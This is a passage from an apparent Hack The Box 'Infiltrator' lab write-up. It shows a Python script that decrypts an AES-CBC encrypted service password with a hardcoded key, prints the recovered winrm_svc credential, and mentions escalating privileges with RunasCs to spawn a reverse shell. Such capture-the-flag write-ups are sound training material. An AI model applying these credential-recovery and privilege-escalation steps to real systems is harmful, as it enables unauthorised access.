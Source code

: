 ```c
        {
            Console.WriteLine(string.Format("An error occurred: {0}", ex.Message));
        }
    }
}

```

## Privilege Escalation to winrm_svc

### Password Decryption

With the support of our `artifical intelligence team member` we build a script to `decrypt` the `AES CBC` encrypted password.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat decrypter.py 
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64


key = 'b14ca5898a4e4133bbce2ea2315a1916'
encrypted_value = 'TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE='

def decryption(key: str, encrypted_value: str) -> str:
    key_bytes = key.encode()
    if len(key_bytes) not in {16, 24, 32}:
        raise ValueError("Invalid key length")
    
    decryptor = Cipher(algorithms.AES(key_bytes), modes.CBC(b'\x00' * 16), backend=default_backend()).decryptor()
    return (decryptor.update(base64.b64decode(encrypted_value)) + decryptor.finalize()).decode()


print("[+] Decrypted value: " + decryption(key,decryption(key, encrypted_value)))
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ python3 decrypter.py
[+] Decrypted value: WinRm@$svc^!^P
```

| Username  | Password       |
| --------- | -------------- |
| winrm_svc | WinRm@$svc^!^P |

### Spawning Reverse Shell as winrm_svc

With the power of `RunasCs` by `Antonio Coco` we successfully `escalated our privileges` to `winrm_svc`.
